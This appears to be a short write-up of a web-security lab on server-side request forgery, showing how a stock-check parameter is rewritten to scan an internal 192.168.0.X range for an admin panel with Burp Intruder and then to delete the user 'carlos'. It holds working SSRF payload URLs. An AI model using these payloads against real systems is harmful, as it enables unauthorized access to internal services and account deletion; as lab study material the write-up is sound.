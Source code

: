 task : use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos


`stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1`

same as previous lab but as we can see after decode it

stockApi=http://192.168.0.1:8080/product/stock/check?productId=2&storeId=1

modify it to `stockApi=http%3a%2f%2f192.168.0.1%3a8080%2fadmin` so we can search at what ip this page is available .

using burpsuite intruder :

determine what to bruteforce :

![image](https://user-images.githubusercontent.com/67979878/128208683-621b13f2-703e-4bdd-af56-cee1a9931370.png)
setting options :

![image](https://user-images.githubusercontent.com/67979878/128207786-7e48f408-e23b-4bf6-8669-249907a59417.png)

start attack and observe status :
![image](https://user-images.githubusercontent.com/67979878/128209259-2e2e6462-2ff1-4164-b737-589c2513b650.png)

now we can make a valid request :
with the SSRF we can send requests only so we should do it all with post and get methods .

http://192.168.0.68:8080/admin/delete?username=carlos
